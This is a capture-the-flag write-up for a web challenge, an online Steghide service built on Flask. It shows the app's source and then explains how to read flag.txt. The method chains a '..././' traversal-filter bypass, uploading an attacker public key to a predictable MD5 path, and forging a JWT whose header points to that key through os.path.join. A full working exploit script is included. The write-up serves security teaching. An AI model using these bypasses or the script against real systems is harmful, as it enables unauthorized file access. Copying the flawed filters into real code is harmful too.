


This challenge was part of a CTF event hosted by [HackerSchool](https://hackerschool.io).


## Challenge statement

For this web challenge, the web site provided was an online service for running [Steghide](https://github.com/StefanoDeVuono/steghide).
The user sends some text, a password and an image, and the service sends back that same image with the text hidden inside (extractable with the password).



The source code of the application is also provided in a zip file and it contains a [Flask](https://flask.palletsprojects.com/en/2.1.x/) application alongside a **Dockerfile**.
It the contains the following endpoints and helper functions:

```python
# app.py

def verify_jpeg(file_path):
    try:
        jpeg = Image.open(file_path)
        jpeg.verify()
        if imghdr.what(file_path) != 'jpeg':
            return False
        return True
    except:
        return False


app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024

@app.route('/')
def index():
    resp = make_response(render_template('upload.html'))
    if not request.cookies.get('session'):
        resp.set_cookie('session', create_token())
    return resp

@app.route('/upload', methods=['POST'])
def upload():
    if not request.cookies.get('session'):
        return redirect('/')
    session = request.cookies.get('session')
    uploaded_file = request.files['file']
    password = request.form['password']
    content = request.form['content']
    upload_name = uploaded_file.filename.replace('../', '') # no traversal!
    output_name = os.path.join('output/', os.path.basename(upload_name))
    image_data = uploaded_file.stream.read()
    image_md5 = hashlib.md5(image_data).hexdigest()
    image_path = f'uploads/{image_md5}.jpeg'
    content_path = f"uploads/{rand_string()}.txt"

    # write temp txt file
    with open(content_path, 'w') as f:
        f.write(content)
        f.close()

    # write temp image file
    with open(image_path, 'wb') as f:
        f.write(image_data)
        f.close()
    
    # verify jpeg validity
    if not verify_jpeg(image_path):
        return 'File is not a valid JPEG!', 400

    # verify session before using it
    session = verify_token(session)
    if not session:
        return 'Session token invalid!', 400
    
    # attempt to embed message in image
    try:
        embed_file(content_path, image_path, output_name, password)
    except:
        return 'Embedding failed!', 400
    
    # append username to output path to prevent vulns
    sanitized_path = f'output/{upload_name}_{session["username"]}'
    try:
        if not os.path.exists(sanitized_path):
            os.rename(output_name, sanitized_path)
    except:
        pass
    try:
        return send_file(sanitized_path)
    except:
        return 'Something went wrong! Check your file name', 400
```

```python
# utils.py

def create_token():
    priv_key = open('keys/private.pem', 'r').read()
    token = jwt.encode({"username": f"guest_{random.randint(1,10000)}"}, priv_key, algorithm='RS256', headers={'pubkey': 'public.pem'})
    return token

def verify_token(token):
    try:
        headers = jwt.get_unverified_header(token)
        pub_key_path = headers['pubkey']
        pub_key_path = pub_key_path.replace('..', '') # no traversal!
        pub_key_path = os.path.join(os.getcwd(), os.path.join('keys/', pub_key_path))
        pub_key = open(pub_key_path, 'rb').read()
        if b'BEGIN PUBLIC KEY' not in pub_key:
            return False
        return jwt.decode(token, pub_key, algorithms=['RS256', 'HS256'])
    except:
        return False

def rand_string():
    return ''.join(random.choice(string.ascii_letters + string.digits) for i in range(32))

def embed_file(embed_file, cover_file, stegfile, password):
    cmd = subprocess.Popen(['steghide', 'embed', '-ef', embed_file, '-cf', cover_file, '-sf', stegfile, '-p', password]).wait(timeout=.5)
```

```Dockerfile
FROM python:3.8-slim-buster

RUN mkdir /app

RUN pip3 install flask pillow pyjwt cryptography

RUN apt update && apt install -y steghide

WORKDIR /app/keys

RUN openssl genrsa -out private.pem 3072 && openssl rsa -in private.pem -pubout -out public.pem

COPY . /app

WORKDIR /app

EXPOSE 1337

CMD python3 app.py
```

The project's directory structure also looks like this:

```
app
|- keys/
|- output/
|- templates/
|- app.py
|- Dockerfile
|- flag.txt
|- utils.py
```

## Working the problem

My initial approach to this challenge was to try and trick the program into embedding the content of `flag.txt` inside my image and extract it with the password later.
This strategy was not possible, as the variable that controls the path of the file that is embedded is generated through the `rand_string` function, and not controlled by me.
My next strategy was to get the service to return `flag.txt` directly, instead of the generated image.
The variable that controls this path is present in the following snippet:

```python
# append username to output path to prevent vulns
sanitized_path = f'output/{upload_name}_{session["username"]}'
try:
    if not os.path.exists(sanitized_path):
        os.rename(output_name, sanitized_path)
except:
    pass
try:
    return send_file(sanitized_path)
except:
    return 'Something went wrong! Check your file name', 400
```

To pull off this strategy, I would have to control the `upload_name` and `session` variables in order to construct a path that leads to the flag.

### Bypassing the traversal filter

Let's start with the `upload_name` variable.
It is created in this section of the code:

```python
@app.route('/upload', methods=['POST'])
def upload():
    if not request.cookies.get('session'):
        return redirect('/')
    session = request.cookies.get('session')
    uploaded_file = request.files['file']
    password = request.form['password']
    content = request.form['content']
    upload_name = uploaded_file.filename.replace('../', '') # no traversal!
    output_name = os.path.join('output/', os.path.basename(upload_name))
    image_data = uploaded_file.stream.read()
    image_md5 = hashlib.md5(image_data).hexdigest()
    image_path = f'uploads/{image_md5}.jpeg'
    content_path = f"uploads/{rand_string()}.txt"
```

The variable is created by applying a directory traversal filter to the name of the uploaded image.
However, the filter is not correctly implemented and can be bypassed by using interpolation, like so:

```python
>>> "..././".replace("../", "")
'../'
```

With this technique, I have total control over the `upload_name` variable.
Note that the `output_name` variable is also constructed from `upload_name`, meaning that it must remain a valid path, otherwise **steghide** will fail.

### JWT forgery

The `session` variable is a lot trickier, as it is created from the **JWT**:

```python
def verify_token(token):
    try:
        headers = jwt.get_unverified_header(token)
        pub_key_path = headers['pubkey']
        pub_key_path = pub_key_path.replace('..', '') # no traversal!
        pub_key_path = os.path.join(os.getcwd(), os.path.join('keys/', pub_key_path))
        pub_key = open(pub_key_path, 'rb').read()
        if b'BEGIN PUBLIC KEY' not in pub_key:
            return False
        return jwt.decode(token, pub_key, algorithms=['RS256', 'HS256'])
    except:
        return False
```

Note that the application gets the path to the public key from the token itself.
In order to control the `session` variable and have it be successfully verified by the application, I have to somehow upload my own key to the server and force the application to use it.
Looking back at the code for the **upload** endpoint, there is an interesting characteristic:

```python
image_data = uploaded_file.stream.read()
image_md5 = hashlib.md5(image_data).hexdigest()
image_path = f'uploads/{image_md5}.jpeg'
content_path = f"uploads/{rand_string()}.txt"

# write temp image file
with open(image_path, 'wb') as f:
    f.write(image_data)
    f.close()

# verify jpeg validity
if not verify_jpeg(image_path):
    return 'File is not a valid JPEG!', 400
```

The uploaded image is validated after being saved on the server.
Furthermore, its path is composed of the MD5 hash of the file, which means I can accurately predict where it is stored.
As a result, I can upload my own public key instead of an image and have it be saved in a path that I can point back to in the **JWT**'s header.
However, there is another obstacle to overcome.
The `verify_token` function also has a directory traversal filter implemented, and this one is not vulnerable to the interpolation technique.
To be able to point the program to my own key I have to take advantage of the `os.path.join` function.
In its documentation it reads: *"If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component."*
Since `pub_key_path` is the last argument in the call to this function, all I have to do is supply an absolute path pointing my uploaded key.
By looking at the **Dockerfile**, I am able to fully construct this path.

### Finding the path

After getting control of both of those variables, there is one last step before getting the flag.
The constructed path to the flag must be valid, and there is another factor to take into the account:

```python
sanitized_path = f'output/{upload_name}_{session["username"]}'
```

The "_" betweeen the 2 variables must be part of the path.
Since this is a python application, there will be a **__pycache__** directory at the root of the project.
This can be leveraged to construct the path: `output/../__pycache__/../flag.txt`.
As a result, the final values for the variables are:
+ `upload_name`: `..././_`, it must end in a "_" so it is a valid path by itself
+ `session["username"]`: `pycache__/../flag.txt`, no need for filter bypass since it is trusted due to **JWT**

## Putting it all together

With all of this gathered information, I can write a script that uploads my own public key to the server, forges a doctored **JWT** and tricks the application into returning the flag.
The steps are:
1. Generating a key pair:
```bash
$ openssl genrsa -out private.pem 1024
$ openssl rsa -in private.pem -pubout -out public.pem
```
2. Upload the key as an image and calculate its storage path with the MD5 hash
3. Forge a **JWT** with the username `pycache__/../flag.txt`
4. Upload an image, using that **JWT**, with the filename `..././_`

All of this can be accomplished with the following script:

```python
import requests
import hashlib
import jwt

URL = 'http://{APPLICATION_URL}'

# Upload key
name = 'img.jpg'
key = open("public.pem", "rb")
md5 = hashlib.md5(key.read()).hexdigest()
key_path = f'uploads/{md5}.jpeg'
key.close()

files = {'file': (name, open('public.pem', 'rb'))}
data = {'password': '1234', 'content': 'secret'}

s = requests.session()
s.get(URL)
r = s.post(URL + '/upload', files=files, data=data)


# Get flag
name = '..././_'
username = 'pycache__/../flag.txt'
priv = open("private.pem").read()
token = jwt.encode({'username': username}, priv, algorithm='RS256', headers={'pubkey': f'/app/{key_path}'})
s.cookies['session'] = token

# img.jpg is a valid image
files = {'file': (name, open('img.jpg', 'rb'))} 
data = {'password': '1234', 'content': 'secret'}
r = s.post(URL + '/upload', files=files, data=data)


if r.status_code == 200 and len(r.content) < 100:
    print(r.content)
```


